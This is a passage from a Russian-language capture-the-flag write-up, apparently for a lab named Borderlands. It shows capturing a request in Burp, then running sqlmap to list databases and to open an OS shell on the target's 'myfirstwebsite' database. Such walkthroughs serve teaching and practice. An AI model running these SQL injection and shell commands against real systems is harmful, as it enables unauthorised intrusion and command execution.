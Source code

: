 Перехватим запрос с помощью Burp и сохраним данный запрос в текстовый файл.

![](../assets/Borderlands/14.png)

Теперь же мы будем использовать sqlmap, чтобы вытащить таблицы из базы данных.
```
sqlmap -r req.txt --dbs --batch
```

![](../assets/Borderlands/15.png)

Пробросим обратную оболочку использую sqlmap.
```
sqlmap -r req.txt -D myfirstwebsite --os-shell
```

![](../assets/Borderlands/16.png)

![](../assets/Borderlands/17.png)
